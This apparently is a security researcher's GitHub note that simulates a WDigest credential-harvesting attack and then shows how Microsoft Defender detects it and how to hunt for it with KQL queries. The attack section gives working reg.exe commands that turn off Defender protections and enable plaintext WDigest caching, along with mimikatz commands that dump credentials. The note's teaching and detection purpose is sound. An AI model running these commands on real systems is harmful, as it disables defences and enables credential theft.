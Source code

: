 # Day 13 - WDigest credential harvesting - attack
Hi there !! Thank you for visiting [@SecurityResearch-Note](https://github.com/LearningKijo/SecurityResearcher-Note). 
Today, I'm diving into the WDigest credential harvesting attack, breaking it down into three parts. 
1. WDigest credential harvesting - Attack technique 
2. WDigest credential harvesting - Detection
3. WDigest credential harvesting - Threat Hunting

#### Attack overview
WDigest, an outdated authentication protocol still found in corporate networks, is exploited by attackers to steal passwords and evade security measures. 
Its use exposes passwords in plain text, making it a favored target. Attackers modify registry settings to enable WDigest, often using various attack vectors. 


![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/05b4876b-ebe3-48fc-8b59-398cffe0d928)
> WDigest credential harvesting attack flow, [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

## Attack technique
The attack flow begins with disabling the antivirus solution to change a registry key, enabling WDigest, and downloading the Mimikatz tool. 
Following this, a command is executed to enable WDigest and run the Mimikatz tool using the "sekurlsa::wdigest" command.

#### 1. Disable Microsoft Defender antivirus
   - [x] DisableRealtimeMonitoring,  [Real-time protection]
   - [x] SpynetReporting, [Cloud-delivered protection]
   - [x] SubmitSamplesConsent, [Automatic sample submission]

```powershell
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 2 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/28105886-3f1d-4cea-8de8-c7048a60bd9a)

> [!Important]
> These commands disabled Microsoft Defender Antivirus configurations. To prevent and detect these attack techniques, enabling [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide) is the most effective approach, as it safeguards against disabling antivirus.

#### 2. Enable Wdigest
[MITRE | ATT&CK, Modify Registry, T1112, Wdigest](https://attack.mitre.org/techniques/T1112/)

```powershell
reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49e3a65c-fe1c-42da-9ac6-902fa5f1f51b)

> [!Important]
> Even if the antivirus didn't detect and prevent the WDigest configuration change, Microsoft Defender for Endpoint, as EDR solution, can detect these activities and provide alerts.

#### 3. Download & Execute Mimikatz tool
Download - [GitHub - ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

```mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::wdigest
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/9ef03db8-22a6-45fc-a8ca-5ac7dd4bb298)

> [!Important]
> In terms of endpoint protection, Microsoft Defender Antivirus and Microsoft Defender for Endpoint are the most effective solutions for preventing and detecting Mimikatz activities.
> Additionally, when it comes to addressing lateral movement and enhancing identity visibility, Microsoft Defender for Identity is a valuable product for detecting such activities.

## Detection
After simulating a WDigest credential harvesting attack, let's examine how this attack is mapped into a single incident in Microsoft 365 Defender portal.

All the attack techniques, from disabling antivirus to executing Mimikatz, were detected by Microsoft Defender for Endpoint, generating 11 alerts. Additionally, Threat Analytics provides insights related to Mimikatz and WDigest credential harvesting.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/1c9c3f9d-4ff2-4269-b67f-f6d6a67f72b3)

#### ***Alert : Microsoft Defender Antivirus protection turned off***
A protection feature in Microsoft Defender Antivirus has been turned off. An attacker might be trying to evade detection.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/dde8b17c-38bc-4847-87fc-d8940ebc8313)

#### ***Alert : WDigest configuration change***
An attempt to turn on the WDigest authentication provider through the registry was observed.
If the attempt is successful, WDigest will load on the next restart and begin to store credentials as plaintext in LSASS process memory. An attacker might be attempting to collect those credentials.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/8065422f-a296-46a3-82a0-71a0997108db)

#### ***Alert : Malicious credential theft tool execution detected***
A known credential theft tool execution command line was detected. Either the process itself or its command line indicated an intent to dump users' credentials, keys, plain-text passwords and more.
> [!Note]
> The two mimikatz commands (mimikatz # privilege::debug, mimikatz # sekurlsa::wdigest) which I simulated on the device were also detected by Microsoft Defender for Endpoint

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/d4325269-853e-4488-837d-2a56e77b0928)


## Threat Hunting
For threat hunting purposes, here are some KQL queries to track activities like disabling antivirus, changing WDigest configurations, and executing Mimikatz tool.

#### WDigest configuration change
This query helps identify attempts to enable WDigest credentiall caching through the registry.

```kql
union DeviceRegistryEvents, DeviceProcessEvents
// Find attempts to turn on WDigest credential caching
| where RegistryKey contains "wdigest" and RegistryValueName == "UseLogonCredential" and RegistryValueData == "1" or 
// Find processes created with commandlines that attempt to turn on WDigest caching
ProcessCommandLine has "WDigest" and ProcessCommandLine has "UseLogonCredential" and ProcessCommandLine has "dword" and ProcessCommandLine has "1"
| project Timestamp, DeviceName, PreviousRegistryValueData,  
RegistryKey, RegistryValueName, RegistryValueData, FileName, ProcessCommandLine, 
InitiatingProcessAccountName, InitiatingProcessFileName, 
InitiatingProcessCommandLine, InitiatingProcessParentFileName
```
> **Source** : WDigest credential harvesting, Threat Analytics in Microsoft 365 Defender

#### Mimikatz CommandLine

```kql
DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName in~ ("powershell.exe","powershell_ise.exe", "mimikatz.exe")
| where ProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump") or InitiatingProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump")
| summarize make_set(ProcessCommandLine) by DeviceId, DeviceName
```

## Reference
1. [Forcing WDigest to Store Credentials in Plaintext](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext)
2. "WDigest credential harvesting", from [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
